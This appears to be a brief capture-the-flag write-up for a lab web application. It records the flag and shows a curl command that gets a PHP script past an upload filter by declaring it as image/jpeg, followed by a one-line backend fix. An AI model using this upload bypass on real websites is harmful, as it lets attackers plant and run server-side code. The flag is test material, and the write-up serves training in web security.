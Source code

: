 # UPLOAD IMG

## The flag

```
THE FLAG IS : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## How to find it ?

On the page http://10.12.1.121/index.php?page=upload
Force to upload a script by doing a curl with a script and an image type
```
curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://10.12.1.121/index.php\?page=upload
```

## How to use it ?

Send a php script into the backend

## How to avoid it ?

Check the file type in back